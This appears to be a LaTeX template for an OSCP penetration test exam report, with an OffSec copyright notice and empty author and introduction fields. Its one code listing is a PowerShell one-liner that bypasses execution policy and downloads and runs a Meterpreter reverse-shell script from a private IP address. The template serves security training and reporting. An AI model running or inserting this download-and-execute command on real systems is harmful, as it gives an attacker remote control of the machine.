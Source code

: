\documentclass[11pt, a4paper]{article}
\begin{document}
\title{
    \begin{figure}[h]
        \centering
        \texttt{[image: offsec-header.png]}
    \end{figure}    
OSCP Penetration Test Report}
\author{  \\ email: \href{mailto:}{} \\ \textbf{OSID: }}
\date{../../2024}
\renewcommand*\contentsname{Table of Contents}
\maketitle

\renewcommand*\abstractname{Copyright}

\begin{abstract}
Copyright © 2023 OffSec Ltd. All rights reserved.
No part of this publication, in whole or in part, may be reproduced, copied, transferred or any other right reserved to its copyright owner, including photocopying and all other copying, any transfer or transmission using any network or other means of communication, any broadcast for distant learning, in any form or by any means such as any information storage, transmission or retrieval system, without prior written permission from OffSec.
\end{abstract}

\begin{figure}[h]
    \centering
    \texttt{[image: footer-offsec.png]}
\end{figure}

\newpage

\tableofcontents

\newpage

\section{Offensive Security OSCP Exam Pen Test Report}

\subsection{Introduction}


EXAM BEGIN HERE


\begin{lstlisting}[frame=single]
    # Comment
    powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.10/meterpreter_shellcode_reverse.ps1')"
\end{lstlisting}
\end{document}
